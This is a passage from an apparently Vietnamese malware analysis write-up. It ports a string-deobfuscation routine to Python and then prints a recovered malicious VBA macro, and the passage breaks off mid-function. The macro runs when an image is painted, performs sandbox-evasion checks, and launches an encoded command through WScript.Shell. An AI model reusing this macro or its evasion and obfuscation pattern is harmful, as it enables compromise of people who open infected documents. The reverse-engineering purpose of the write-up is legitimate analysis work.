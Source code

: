 ##### Nếu chuyển hàm DecodeData sang python ta sẽ được hàm sau:
```
def decode_data(input_str, step_val, offset_val):
    length = len(input_str)
    if length == 0:
        return ""
    step = step_val % length
    index = offset_val % length
    target_length = length - 9  
    decoded = []
    for _ in range(target_length):
        decoded.append(input_str[index])
        index = (index + step) % length
    return ''.join(decoded)
```
##### Bây giờ các full script malicous sẽ là 
```
Dim isProcessed As Boolean

Public Sub OnImagePainted(ByVal unusedParam As Long, ByVal unusedRect As IInkRectangle)
    If isProcessed Then Exit Sub
    isProcessed = True
    ExecuteMainRoutine
End Sub

Public Sub ExecuteMainRoutine()
    On Error GoTo HandleError

    CheckDocumentNameValidity
    CheckRecentFilesCount
    CheckTasksCount
    CheckTaskNames
    ValidateDownloadedContent

    Dim comObject As Object
    Set comObject = CreateObject(GetCOMObjectName)
    EchoValue comObject.Run(GetRunCommand, 0)
    
    MsgBox "Invalid Macro Format"
    Exit Sub
HandleError:
    MsgBox 666
End Sub

Public Function GetCOMObjectName() As String
    GetCOMObjectName = "WScript.Shell"
End Function

Public Function GetRunCommand() As String
    GetRunCommand = PrependPrefix( _
        DecodeData("AHABJACABZAEuBbYEoQRMA9AAwABQAQABwAHABIAG3BIECsAcMAuAbEAlwAAABAAGABdAHpAIADsBb4HuQU4ApgAsABAAGABQAHABYAHUBIUH0AJwAvg1EAyAAIABQAHABbAHvBNAG0BLwH3AZ4AvQAwAAwAEAAaAGABMAHlBcUDpgcYApgAQABwAkABAAHABZACWBZUG0QaYCvgZ4AuQAMABQACAAMAHgAbAHyBK8H0QVkAggAIABQAHAAAAGABbAHiAZkGiAb4Asw") & _
        "UAjAAUABwAHAAVADBBdgDiBd4GuQZUAFwA0ABQAHABZADABYAG1BIwG4QYwAwAAUALAAQAAAAFABLAHlBLUHfANwEwARQAhQA0ABgAGABcAChALAChBZIHTgbUAlgA8AAwAvABwACABUAGlBcEClAOgAvgToApwAQABAAGABIAFlALMDkBIAGuwbkA2gAMABAACAAZAFABYAGlBZgCuQUgA0gAYAQwAIABQA"), 353, 469)
End Function

Public Sub CheckDocumentNameValidity()
    If IsNameValid(GetDocumentBaseName) Then Err.Raise 102
End Sub

Public Function GetDocumentBaseName() As String
```